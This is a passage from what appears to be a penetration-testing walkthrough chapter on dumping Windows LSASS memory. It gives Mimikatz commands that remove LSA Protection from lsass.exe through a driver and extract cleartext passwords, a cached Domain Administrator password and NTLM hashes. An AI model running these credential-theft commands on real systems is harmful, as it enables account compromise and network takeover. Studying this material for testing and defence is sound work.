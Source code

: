 <div id="0x0C"></div>

# 0x0C Dumping LSASS credentials
<a href="#0x0B"><button class="nav-btn">Previous chapter</button></a><a href="#0x0D"><button class="nav-btn">Next chapter</button></a>

After compromising the machine .101, instead of cracking the hashes, let's dump it's LSASS process memory and find saved credentials in cleartext.

`https://imgflip.com/i/3ms9f2`
![](http://news.baycode.eu/wp-content/uploads/2023/11/3ms9f2-1.jpg)

## Things were easier back in the past

After the release of Windows 8.1 and Windows Server 2012 R2, Microsoft introduced a security feature called "LSA Protection" to safeguard the LSASS process from credential theft attacks. LSA Protection designates LSASS as a Protected Process Light (PPL), ensuring lower privilege or non-protected processes cannot access or tamper with it. The attempts to access this process are also monitored by AVs.

Trying to access the LSASS process with obfuscated (like in the chapter focused on AV evasion) Mimikatz on the target would fail:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

But it can be evaded by loading a driver, and supplementing Mimikatz with a service.
```
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/15-2.png)

Doing so reveals the .101 computer account password.

![](http://news.baycode.eu/wp-content/uploads/2023/11/16-2.png)

And a cached **Domain Administrator** password, as well as NTLM hashes of every user that was logged into this machine and remain in the memory.

![](http://news.baycode.eu/wp-content/uploads/2023/11/17-2.png)

We have Domain Administrator credentials - this is once again game over, and is enough to achieve persistence on the domain and take over the network.

Kerberos credentials are cached on a local machine for future use, especially when the Domain Controller is unavailable. These credentials are stored by default when the user logs into the machine. A Cached Interactive logon, which occurs when logging in with cached domain credentials (e.g., on a laptop outside the network), does not consult the domain controller to verify credentials, resulting in no account login entry generation, but the information is retained in memory.

